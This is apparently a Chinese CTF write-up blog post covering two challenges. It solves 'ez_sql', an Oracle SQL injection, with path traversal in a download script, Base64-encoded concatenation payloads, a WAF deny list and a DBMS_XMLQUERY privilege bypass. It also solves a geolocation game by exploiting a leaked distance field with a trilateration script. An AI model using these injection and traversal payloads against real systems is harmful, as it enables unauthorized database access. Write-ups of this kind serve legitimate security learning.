


打完渗透赛一周后就打了CTF，依旧被gpt带飞rank6，但似乎赛后前面有人跑路了然后最终拿了rank5，不过三等奖还是没变化，但是ak了misc又拿了个misc专项奖喵！可惜最近在期末月复习没啥时间写blog，先放点简单的writeup吧





## ez_sql

### 题目背景

题目名字叫 `ez_sql`，描述也很直接：

```text
签到题，非常简单的sql

hint：hint.txt
```

一开始看起来就是普通 SQL 注入题，但是题目没有直接把注入点摆出来，而是把线索藏在几个页面和一个提示文件里。

这题整体不是那种复杂 Web 链路，核心就是：

```text
找到能提交内容的位置
  -> 找到管理员日志回显位置
  -> 通过 hint 确认回显字段是 AUDIT_NOTE
  -> 发现提交内容会被 Base64 存储/处理
  -> 用拼接注入把查询结果带到管理员日志里
  -> 枚举当前用户、表名、列名
  -> 直接查 SYS.FLAG_STORE 失败
  -> 利用低版本 Oracle 的 XML 查询包绕过权限边界
  -> 从 XML 回显里拿到 flag
```

简单说，就是先找到“哪里能输入、哪里能看到结果”，再通过 Oracle 字符串拼接把查询结果塞进日志里。

------

### 信息收集

#### 思路

刚开始先扫目录，看看有哪些能访问的页面。

结果里比较关键的是这几个：

```text
/download.php
/dashboard.php
/login.php
/review.php
/admin/log.php
```

其中 `/admin/` 本身是 403，但是 `/admin/log.php` 能访问，这就很像一个“管理员审核日志”的页面。

#### 关键结果

扫描根目录时能看到：

```text
200 - /download.php
200 - /dashboard.php
200 - /login.php
200 - /review.php
```

继续扫 `/admin`，能看到：

```text
200 - /admin/log.php
```

#### 结果

这里基本确认了两个入口：

```text
/review.php      提交匿名 review
/admin/log.php   查看管理员日志
```

后面重点就在这两个页面之间找数据流。

------

### 读取 hint.txt

#### 思路

题目描述里说了：

```text
hint：hint.txt
```

扫目录时发现 `/download.php`，直接访问不带参数时，它会把自己的源码打出来。

源码里可以看到它会从 `exports` 目录下读取文件：

```php
if (!isset($_GET['file'])) {
    header('Content-Type: text/plain; charset=utf-8');
    readfile(__FILE__);
    exit;
}

$file = $_GET['file'];
$path = __DIR__ . '/exports/' . $file;
```

而且只允许 `.txt` 文件，或者 basename 是 `review.php`：

```php
if (!preg_match('/\.txt$/i', $file) && basename($path) !== 'review.php') {
    http_response_code(403);
    echo 'export denied';
    exit;
}
```

所以先按题目提示读：

```text
/download.php?file=hint.txt
```

返回：

```text
We used AUDIT_NOTE as the audit note field and echoed its content in the administrator log.
```

#### 结果

这句话非常关键，意思是：

```text
AUDIT_NOTE 字段会出现在管理员日志里
```

也就是说，只要我们能控制 `AUDIT_NOTE` 的内容，就有可能在 `/admin/log.php` 里看到结果。

------

### 读取 review.php 源码

#### 思路

`download.php` 还有一个小问题：虽然它把路径拼到了 `exports` 下面，但是没有彻底限制 `../`。

同时它又允许 basename 为 `review.php` 的文件，所以可以读：

```text
/download.php?file=../review.php
```

这样就拿到了 review 提交页面的源码。

#### 关键代码

`review.php` 里有一个 WAF：

```php
function waf_blocked($value) {
    $deny = [
        'select', 'union', 'insert', 'update', 'delete', 'drop',
        'sys.', 'dbms_', 'dbm$_', 'utl_', '--', '/*', '*/',
        'chr(', 'execute', 'procedure', 'function'
    ];
    $lower = strtolower($value);
    foreach ($deny as $token) {
        if (strpos($lower, $token) !== false) {
            return $token;
        }
    }
    return false;
}
```

同时提交内容必须匹配 Base64 字符集：

```php
} elseif (!preg_match('/^[A-Za-z0-9+\/=]{8,4096}$/', $content)) {
    $message = 'Submission rejected.';
} else {
    $id = add_review($target, $content);
    $message = 'Anonymous review #' . $id . ' submitted for moderation.';
}
```

#### 结果

这里可以得到两个信息：

```text
review_content 不能直接写 SQL 关键字
review_content 只能是 Base64 格式
```

也就是说，真正进数据库前，很可能会有一次 Base64 解码。

所以后面构造 payload 时，不是直接提交 SQL 片段，而是先把 SQL 片段 Base64 编码后再提交。

------

### 确认注入回显点

#### 思路

hint 已经告诉我们 `AUDIT_NOTE` 会显示在管理员日志里，所以先用最简单的 Oracle 字符串拼接测试。

Oracle 里 `||` 是字符串拼接。假设后端在审核时类似这样拼接：

```sql
'Reviewed: ' || AUDIT_NOTE
```

那么只要 `AUDIT_NOTE` 里能闭合字符串，就可以把表达式结果拼进去。

#### 测试当前用户

先测试：

```sql
'||USER||'
```

因为提交口要求 Base64，所以提交它的 Base64：

```text
J3x8VVNFUnx8Jw==
```

然后去 `/admin/log.php` 看结果，可以看到：

```text
Reviewed: HR_ADMIN
```

#### 结果

这一步说明注入链路是通的：

```text
/review.php 提交 Base64 内容
  -> 后端解码
  -> 内容进入 AUDIT_NOTE
  -> 审核/日志 SQL 拼接时触发表达式
  -> /admin/log.php 回显结果
```

当前执行上下文是：

```text
HR_ADMIN
```

------

### 枚举当前 schema

#### 思路

继续确认当前 schema。这里用 Oracle 的：

```sql
SYS_CONTEXT('USERENV','CURRENT_SCHEMA')
```

payload：

```sql
'||SYS_CONTEXT('USERENV','CURRENT_SCHEMA')||'
```

Base64 后提交：

```text
J3x8U1lTX0NPTlRFWFQoJ1VTRVJFTlYnLCdDVVJSRU5UX1NDSEVNQScpfHwn
```

管理员日志里回显：

```text
Reviewed: HR_ADMIN
```

#### 结果

当前用户和当前 schema 都是：

```text
HR_ADMIN
```

说明我们当前不是 SYS，也不是直接高权限用户。

------

### 枚举 flag 表

#### 思路

接下来从数据字典里找包含 `FLAG` 的表。

payload：

```sql
'||(SELECT table_name FROM all_tables WHERE table_name LIKE '%FLAG%' AND rownum=1)||'
```

Base64 后：

```text
J3x8KFNFTEVDVCB0YWJsZV9uYW1lIEZST00gYWxsX3RhYmxlcyBXSEVSRSB0YWJsZV9uYW1lIExJS0UgJyVGTEFHJScgQU5EIHJvd251bT0xKXx8Jw==
```

日志回显：

```text
Reviewed: FLAG_STORE
```

#### 结果

找到 flag 表名：

```text
FLAG_STORE
```

------

### 枚举字段名和 owner

#### 思路

有了表名之后，继续查列名。

payload：

```sql
'||(SELECT column_name FROM all_tab_columns WHERE table_name='FLAG_STORE' AND rownum=1)||'
```

Base64 后：

```text
J3x8KFNFTEVDVCBjb2x1bW5fbmFtZSBGUk9NIGFsbF90YWJfY29sdW1ucyBXSEVSRSB0YWJsZV9uYW1lPSdGTEFHX1NUT1JFJyBBTkQgcm93bnVtPTEpfHwn
```

日志回显：

```text
Reviewed: S3CR3T
```

继续查 owner：

```sql
'||(SELECT owner FROM all_tables WHERE table_name='FLAG_STORE' AND rownum=1)||'
```

Base64 后：

```text
J3x8KFNFTEVDVCBvd25lciBGUk9NIGFsbF90YWJsZXMgV0hFUkUgdGFibGVfbmFtZT0nRkxBR19TVE9SRScgQU5EIHJvd251bT0xKXx8Jw==
```

日志回显：

```text
Reviewed: SYS
```

#### 结果

这里确定了最终目标：

```text
表：SYS.FLAG_STORE
列：S3CR3T
```

------

### 直接读取失败

#### 思路

既然已经知道表名和列名，先尝试直接查：

```sql
'||(SELECT S3CR3T FROM SYS.FLAG_STORE WHERE rownum=1)||'
```

Base64 后：

```text
J3x8KFNFTEVDVCBTM0NSM1QgRlJPTSBTWVMuRkxBR19TVE9SRSBXSEVSRSByb3dudW09MSl8fCc=
```

结果管理员日志里没有正常回显，而是出现数据库错误：

```text
ORA-00942: table or view does not exist
```

再试：

```sql
'||(SELECT COUNT(*) FROM SYS.FLAG_STORE)||'
```

也是一样报错。

#### 结果

这里说明一个问题：

```text
当前注入执行用户能从 all_tables / all_tab_columns 看到 SYS.FLAG_STORE 的元信息，
但没有权限直接 SELECT SYS.FLAG_STORE。
```

所以这题不是简单枚举完表名就结束，还需要想办法绕过权限边界。

------

### 注意 WAF 的遗漏点

#### 思路

回头看 `review.php` 的 WAF，它确实拦了很多东西：

```text
select / union / sys. / dbms_ / utl_ / execute / function ...
```

但是这个 WAF 是在 Base64 字符串上做检查的，而不是在解码后的内容上做完整 SQL 语义检查。

所以只要提交的是 Base64，明文里的 `select`、`sys.`、`dbms_` 等关键字并不会直接被这个函数发现。

#### 结果

这就是为什么前面的枚举 payload 能提交成功。

真正的限制不是提交口 WAF，而是数据库权限：

```text
HR_ADMIN 无法直接读 SYS.FLAG_STORE
```

------

### 利用 DBMS_XMLQUERY 取结果

#### 思路

这里卡点在权限。直接：

```sql
SELECT S3CR3T FROM SYS.FLAG_STORE
```

会报 `ORA-00942`。

后面想到低版本 Oracle 里一些 XML 查询包可能存在权限边界问题。`DBMS_XMLQUERY.GETXML()` 可以接收一段查询字符串，执行后把结果包装成 XML 返回。

这类函数在题目环境里能被调用，而且执行查询时的权限表现和普通直接 SELECT 不一样，于是就可以把结果转成 XML 再拼到日志里。

最终 payload 是：

```sql
'||dbms_xmlquery.getxml('select S3CR3T from SYS.FLAG_STORE')||'
```

提交前同样先 Base64：

```text
J3x8ZGJtc194bWxxdWVyeS5nZXR4bWwoJ3NlbGVjdCBTM0NSM1QgZnJvbSBTWVMuRkxBR19TVE9SRScpfHwn
```

#### 结果

提交后查看 `/admin/log.php`，可以看到 `AUDIT_NOTE` 被替换成了 XML：

```xml
<ROWSET>
  <ROW>
    <S3CR3T>Spirit{3z-Or@c134cfa441606aa0}</S3CR3T>
  </ROW>
</ROWSET>
```

也就是说，flag 已经在 XML 标签里回显出来了。

------

### 为什么这个点能打通

#### 思路

这题最后不是普通 SQL 注入直接读表，而是多了一个 Oracle 特性点。

可以把它理解成：

```text
普通 SELECT：
HR_ADMIN 直接查 SYS.FLAG_STORE，权限不够，所以 ORA-00942。

XML 查询包：
DBMS_XMLQUERY.GETXML 接收查询字符串，把查询结果转成 XML 返回。
在题目这个低版本/错误授权环境里，它帮我们执行了那条查询，
结果又被原来的 || 拼接带回管理员日志。
```

最终数据流是：

```text
Base64 payload
  -> review.php 接收
  -> 后端解码后写入 AUDIT_NOTE
  -> 审核日志拼接 AUDIT_NOTE
  -> 触发 Oracle 表达式
  -> dbms_xmlquery.getxml 执行内部查询
  -> 查询结果转成 XML
  -> /admin/log.php 回显 XML
  -> 从 S3CR3T 标签中拿 flag
```

#### 结果

这个点的关键不在“XML 格式”本身，而在：

```text
查询结果被变成字符串，并通过原有日志回显带出来
```

------

### 最终结果

管理员日志中出现：

```text
Reviewed: <ROWSET><ROW><S3CR3T>Spirit{3z-Or@c134cfa441606aa0}</S3CR3T></ROW></ROWSET>
```

所以最终 flag 是：

```text
Spirit{3z-Or@c134cfa441606aa0}
```

## Deliverables

### 题目背景

这题是一个“猜图片位置”的 Misc 题。

页面会给出一张图片，正常做法应该是根据图片内容判断地点，然后在地图上提交坐标。提交时，前端会向后端发请求：

```http
POST /api/guess
Content-Type: application/json

{"coordinate":"90,90"}
```

后端返回的内容类似这样：

```json
{
  "correct": false,
  "distanceMeters": 6601044,
  "nextIndex": 0,
  "completed": false
}
```

一开始看起来像是普通的地理位置题，但这里最关键的信息不是图片本身，而是返回包里的：

```text
distanceMeters
```

它直接告诉我们当前提交坐标和正确坐标之间的距离。

也就是说，这题不一定要真的识图，只要利用这个距离反馈，就可以把正确坐标反推出。

------

### 整体思路

这题的关键路线是：

```text
观察 /api/guess 接口
  -> 发现返回包会泄露 distanceMeters
  -> 用南北极两次查询反推出纬度
  -> 用同纬度经度 0 查询反推出经度绝对值
  -> 试正负经度确定方向
  -> 必要时再小范围微调
  -> 每一关重复这个过程
  -> 完成所有关卡拿到 flag
```

简单说，就是把“猜图片位置”变成一个数学定位问题。

后端每次都告诉我们距离目标还有多远，这个反馈太精确了，所以不用大范围爆破，也不用一点点拖地图试。

------

### 观察提交接口

#### 思路

先抓一次正常提交的包，看前端到底向哪个接口传坐标。

抓包后可以看到，请求路径是：

```text
/api/guess
```

请求体是一个 JSON：

```json
{"coordinate":"90,90"}
```

这里的 `coordinate` 是字符串格式，两个数字用逗号分隔。

#### 关键返回

随便提交一个坐标，比如：

```text
90,90
```

返回：

```json
{
  "correct": false,
  "distanceMeters": 6601044,
  "nextIndex": 0,
  "completed": false
}
```

几个字段的含义大概是：

| 字段 | 含义 |
| --- | --- |
| `correct` | 当前坐标是否正确 |
| `distanceMeters` | 当前坐标到正确位置的距离，单位是米 |
| `nextIndex` | 下一关编号，没答对时不会变化 |
| `completed` | 是否已经完成全部关卡 |

#### 结果

这里确认了一个很重要的点：

```text
后端会直接返回当前坐标距离正确坐标的米数
```

所以这题的突破口就是 `distanceMeters`。

------

### 为什么不用普通爆破

#### 思路

最直接的想法是把全球经纬度扫一遍，比如：

```text
纬度 -90 到 90
经度 -180 到 180
```

但是这种做法请求量太大，而且精度也不够。

比如按 1 度扫，最多只能扫到城市级别；按 0.01 度扫，请求量就会非常夸张。

#### 关键想法

`distanceMeters` 不是普通的“远 / 近”提示，而是一个精确距离。

如果我们知道几个特殊点到目标点的距离，就可以反推目标点的经纬度。

所以真正的思路不是网格爆破，而是：

```text
用少量特殊坐标测距
  -> 根据球面距离公式反推目标位置
```

#### 结果

这样每一关只需要少量请求，就能直接算出坐标。

------

### 用南北极反推纬度

#### 思路

先向北极提交一次：

```text
90,0
```

再向南极提交一次：

```text
-90,0
```

假设目标纬度是 `lat`，地球半径是 `R`。

从北极到目标点的球面距离是：

```text
d_north = R * (π/2 - lat)
```

从南极到目标点的球面距离是：

```text
d_south = R * (π/2 + lat)
```

两式相加可以得到地球半径：

```text
R = (d_north + d_south) / π
```

两式相减可以得到纬度：

```text
lat = (d_south - d_north) / (2R)
```

这里的 `lat` 先是弧度，最后再转成角度。

#### 关键代码

脚本里对应逻辑是：

```python
d_north = guess(90, 0, "north")
d_south = guess(-90, 0, "south")

R = (d_north + d_south) / math.pi
lat_rad = (d_south - d_north) / (2 * R)
lat = math.degrees(lat_rad)
```

#### 实测结果

第一关测出来类似这样：

```text
north   90.00000000,0.00000000    d=6601044
south  -90.00000000,0.00000000    d=13414043
```

反推出：

```text
R   ≈ 6371000
lat ≈ 30.63538570
```

#### 结果

到这里，目标点的纬度基本已经确定了。

------

### 用同纬度经度 0 反推经度

#### 思路

有了纬度以后，再提交一个同纬度、经度为 0 的点：

```text
lat,0
```

后端会返回这个点到目标点的距离。

因为两个点纬度相同，所以可以用球面余弦公式反推出经度差的绝对值。

公式大概是：

```text
cos(d / R) = sin²(lat) + cos²(lat) * cos(delta_lng)
```

整理一下：

```text
delta_lng = acos((cos(d / R) - sin²(lat)) / cos²(lat))
```

这样可以得到目标经度和 0 经度之间相差多少度。

#### 关键代码

脚本里的核心部分是：

```python
d0 = guess(lat, 0, "same-lat-0")

sinp = math.sin(lat_rad)
cosp = math.cos(lat_rad)

val = (math.cos(d0 / R) - sinp * sinp) / (cosp * cosp)
val = max(-1.0, min(1.0, val))

delta = math.degrees(math.acos(val))
lon_candidates = [delta, -delta]
```

这里得到的是经度绝对值，所以有两个候选：

```text
+delta
-delta
```

比如目标可能在东经，也可能在西经。

#### 结果

这一步可以把经度范围从全球缩小到两个候选点。

------

### 判断经度正负

#### 思路

上一步只能得到经度绝对值，还不知道是正经度还是负经度。

所以直接把两个候选都提交一次：

```text
lat,+delta
lat,-delta
```

哪个返回距离更小，就选哪个。

如果其中一个已经直接 `correct=true`，说明坐标已经命中。

#### 关键代码

```python
best = None

for lon in lon_candidates:
    d = guess(lat, lon, "sign-test")
    cand = (d, lat, norm_lng(lon))

    if best is None or cand[0] < best[0]:
        best = cand
```

#### 实测结果

第一关直接接受：

```text
[+] accepted: 30.63538570,114.54940516
[+] response: {'correct': True, 'distanceMeters': 0, 'nextIndex': 1, 'completed': False}
```

可以看到，后端返回：

```text
correct = True
nextIndex = 1
```

说明第一张图已经过了，进入下一关。

#### 结果

这里基本已经不需要人工看图了。

只要后端继续返回 `distanceMeters`，每一关都可以用同样方法解。

------

### 小范围微调

#### 思路

有时候因为后端坐标精度、四舍五入或者距离计算方式差异，公式算出来的点可能差几米，不一定直接过。

所以脚本后面加了一个小范围微调。

大概做法是：

```text
从当前最优坐标出发
  -> 往周围 8 个方向试探
  -> 哪个点距离更小，就移动过去
  -> 步长逐渐变小
```

这有点像在地图上自动“往更近的方向挪”。

#### 关键代码

```python
steps = [
    1, 0.3, 0.1, 0.03, 0.01, 0.003,
    0.001, 0.0003, 0.0001, 0.00003,
    0.00001, 0.000003
]

for step in steps:
    improved = True

    while improved:
        improved = False

        for da in [-1, 0, 1]:
            for db in [-1, 0, 1]:
                if da == 0 and db == 0:
                    continue

                la = clamp_lat(best_lat + da * step)
                lo = norm_lng(best_lng + db * step)

                d = guess(la, lo)

                if d < best_d:
                    best_d = d
                    best_lat = la
                    best_lng = lo
                    improved = True
```

#### 结果

这个微调主要是兜底用的。

实际测试里，多数关卡通过前面的几何反推就已经足够接近，甚至可以直接 `correct=true`。

------

### 注意 Cookie 和关卡进度

#### 思路

这个题用 Cookie 记录当前进度，比如：

```text
geo_progress=s%3A%7B%22levelIndex%22%3A0%7D...
```

答对一关后，服务端会把进度推进到下一关。

所以脚本不能每一关都强行使用旧 Cookie，否则可能一直卡在同一关。

#### 关键处理

用 `requests.Session()` 来保持会话：

```python
sess = requests.Session()
```

如果一开始从浏览器复制了 Cookie，就只在初始化时设置一次：

```python
if args.cookie:
    c = SimpleCookie()
    c.load(args.cookie)
    for k, v in c.items():
        sess.cookies.set(k, v.value)
```

后面请求过程中，`Session` 会自动保存服务端更新后的 Cookie。

#### 结果

这样脚本就可以连续跑多关，不需要每过一关手动复制一次 Cookie。

------

### 一键脚本

完整脚本保存为：

```text
solve_geo.py
```

运行时传入题目地址：

```bash
python3 solve_geo.py 'https://4tgru4tyrhxa.challenge.jlu-terminal.site/' \
  --cookie 'geo_progress=你的Cookie'
```

如果没有手动 Cookie，也可以先直接访问首页，让服务端下发初始进度 Cookie，再跑脚本。

如果发现坐标一直不对，可以尝试把坐标顺序反过来：

```bash
python3 solve_geo.py 'https://4tgru4tyrhxa.challenge.jlu-terminal.site/' \
  --order lnglat
```

因为有些地图前端喜欢用：

```text
lng,lat
```

而这题实测使用的是：

```text
lat,lng
```

------

### 实际跑题过程

第一关跑出来：

```text
north          90.00000000,0.00000000  d=6601044
south         -90.00000000,0.00000000  d=13414043
estimated R=6371000.065, lat=30.63538570
same-lat-0     30.63538570,0.00000000  d=10313012
accepted: 30.63538570,114.54940516
```

返回：

```json
{
  "correct": true,
  "distanceMeters": 0,
  "nextIndex": 1,
  "completed": false
}
```

继续跑后面的关卡。

第二关：

```text
accepted: 30.65969436,104.08859492
```

返回：

```json
{
  "correct": true,
  "distanceMeters": 1,
  "nextIndex": 2,
  "completed": false
}
```

第三关：

```text
accepted: 40.11714913,124.38775520
```

返回：

```json
{
  "correct": true,
  "distanceMeters": 1,
  "nextIndex": 3,
  "completed": false
}
```

最后一关：

```text
accepted: 31.20566057,121.55044375
```

返回：

```json
{
  "correct": true,
  "distanceMeters": 1,
  "nextIndex": 4,
  "completed": true
}
```

这里的：

```text
completed = true
```

说明所有关卡已经完成。

------

### 最终结果

完成后页面返回 flag：

```text
SpiritGame{Wo_C@o-h31_sh3_gONg_KiNgla1aa9d31}
```
